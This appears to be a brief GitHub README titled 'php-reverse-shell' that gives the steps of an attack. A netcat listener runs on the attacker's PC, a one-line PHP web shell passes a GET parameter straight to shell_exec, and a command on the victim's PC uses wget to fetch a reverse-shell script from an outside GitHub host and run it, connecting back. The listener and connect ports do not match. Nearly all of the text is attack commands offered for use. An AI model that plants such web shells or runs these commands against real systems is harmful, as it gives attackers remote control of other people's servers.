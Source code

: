 # php-reverse-shell

Attacker PC wait for terminal
```shell
nc -l 127.0.0.1 4444
```

Plant somehow a PHP code to execute commands
```PHP
<?php echo shell_exec($_GET['command']);?>
```

Victim PC download smart reverse shell and connect to Attack PC
```shell
wget -O php-smart-reverse-shell.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/php-smart-reverse-shell.php
php ./php-smart-reverse-shell.php 127.0.0.1 1234
```
